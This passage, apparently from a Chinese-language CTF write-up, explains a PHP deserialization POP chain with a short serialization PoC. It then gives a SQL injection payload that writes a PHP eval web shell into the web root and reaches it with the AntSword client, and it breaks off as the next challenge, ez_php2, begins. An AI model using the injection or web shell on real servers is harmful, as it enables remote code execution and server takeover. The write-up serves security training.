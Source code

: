 这里如果benben的值为反序列化类sec的结果

反序列化$b并不会触发wakeup

所以要触发wakeup（） 必须要反序列化fast这个类

同理

要触发tostring这个魔术方法

触发时机:把对象被当成字符串调用

让source = sec这个类才可以

然后让benben = fast这个类将其反序列化的时候顺理成章调用wakeup

根据pop构造poc

将类里只留下成员变量 删除成员函数

```
<?php
class fast
{
  public $source;
}
class sec
{
  var $benben;
}
$fast = new fast();
$sec = new sec();
$fast -> source = $sec;
echo serialize($fast);
```

### 解题过程：

这里直接构造

```php
1' union select 1,2,"<?php eval($_POST['123']);?>" into outfile '/var/www/html/2.php'#
```

之后蚁剑连接即可

链接地址

http://127.0.0.1:52936/2.php

找到![img](https://s2.loli.net/2024/12/01/95VzN4MYFbaiWm2.png)

#### **ez_php2**

首先进行观察，发现关键要素$value($this->flag)在Er的__set中

__set需要进行不存在变量赋值

发现Rd中出现了不存在变量var1,在__call函数中

__call函数需要调用不存在的方法
